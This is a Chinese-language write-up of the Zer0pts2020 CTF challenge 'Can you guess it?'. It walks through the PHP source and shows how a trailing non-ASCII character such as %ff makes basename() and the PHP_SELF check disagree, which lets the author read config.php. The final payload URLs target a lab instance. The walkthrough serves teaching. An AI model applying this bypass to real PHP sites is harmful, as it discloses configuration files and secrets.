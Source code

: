 ```yaml
---
layout: mypost
title: "[Zer0pts2020]Can you guess it?"
categories: [ctf_wp]
---
```


1.ctf 之国庆专辑哈哈哈哈哈，这道题一开始进去的界面是一个框框，一开始以为是一个 sql 注入，但点击 source 竟然给了源码，二话不说开始审计吧

```
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

2.下面具体说一下这段代码都干了什么

```
1.源码一开始有个正则匹配，主要就是不能检测到config.php/（这个/属于可有可没有，因为正则表达式后面有一个*，这个代表的意思是0个到无穷个，也就是说有无穷个/也是可以的），这个倒是好绕过，后面随便加个东西就行
2.然后检测是否用source这个get传参，如果有的话就截取最后的这个文件
tip：这里大家可以先了解一下$_SERVER['PHP_SELF']东西还有basename（）这个函数，简单解释一下就是$_SERVER['PHP_SELF']这个会返回与网站根目录相对的路径，然后basename（）这个函数的话会输出$_SERVER['PHP_SELF']这个路径的最末尾的文件
3.$secret变量的话，就是获取了一个随机的数字，而且数字很复杂，很大，没有规律，这个用到的是和操作系统一样获取随机数的方法，所以这这一步肯定是安全的，然后就是guess（也就是页面中那个框框），它让我们输入一个和这个$secret变量一模一样的数字，而且用到了hash_equals这个东西来比较，不是平时用的===（这个我知道是为了防止时序攻击，所以这个是真的安全，若有漏洞就是0day，所以这个肯定也是没法绕过的）
```

3.okok 大概解释了一遍这个源码的流程，总而言之，肯定不能靠下面那个 guess 去获得 flag，因为这样写真的是最安全的写法，但大家有没有想过，如果这个题的预期解是靠 guess 的话，那上面为什么要大费周章的去写那样的代码呢，所以这个突破点肯定是上面的那些代码，然后再仔细分析一遍

4.这个一开始进去的页面应该是一个 index.php,然后经过 highlight_file(basename($\_SERVER\['PHP_SELF'\]));这个之后会获得 index.php，然后会将 index.php 的源码显示出来，那我们可不可以把 config.php 里面的东西给展示一下呢？然后我也是胡乱测试一下啊，发现一个神奇的事情，就是在访问/index.php/config.php 的时候，服务器也会默认我们访问的是 index.php，所以 source 这个参数还是可以用的，然后搭了一个本地靶场，测试的时候发现虽然服务器也会默认我们访问的是 index.php，但是 SERVER\['PHP_SELF'\]这个东西竟然还是/index.php/config.php，这就找到突破点了，应该就是这两个地方起冲突了，导致我们有机会，那么我就写了第一个 payload

```
http://2db62442-ccea-4f10-afca-1fcc59c0b854.node4.buuoj.cn:81/index.php/config.php/?source
```

然后它就提示

![](image-20231003222658253-1024x130.png)

这很正常啊，我理解，因为这里有个正则欸，检测到了 config.php/，所以肯定不行，然后现在问题就很明显了，要找到一个字符，既能绕过正则匹配（这个正则就是个纸老虎，只要不以 config.php/结尾就行），也能让这个 basename（）函数正常的匹配到 config.php

5.比如下面这个 payload，肯定可以绕过正则，但是报错了，这也很正常，因为 basename（）匹配到的是 1

```
http://2db62442-ccea-4f10-afca-1fcc59c0b854.node4.buuoj.cn:81/index.php/config.php/1?source
```

![](image-20231003223141761-1024x128.png)

然后就去搜这个 basename 有没有啥办法可以绕过啊，结果搜到了 php 官方其实已经给过这个 bug

![](image-20231003223450097-1024x537.png)

```
With the default locale setting "C", basename() drops non-ASCII-chars at the beginning of a filename.
在使用默认语言环境设置时，basename() 会删除文件名开头的非 ASCII 字符
```

然后 github 也有师傅给出了找这个字符的脚本

```
<?php
highlight_file(__FILE__);
$filename = 'index.php';
for($i=0; $i<255; $i++){
    $filename = $filename.'/'.chr($i);
    if(basename($filename) === "index.php"){
        echo $i.'<br>';
    }
    $filename = 'index.php';
}
?>
```

![](屏幕截图-2023-10-03-223738-1024x509.png)

6.然后就很简单了，随便加一个里面的字符就行（ascii 值为 47、128-255 的字符均可以绕过 basename()），下面是最终 payload

```
http://2db62442-ccea-4f10-afca-1fcc59c0b854.node4.buuoj.cn:81/index.php/config.php/%ff?source
```

![](image-20231003223936555-1024x94.png)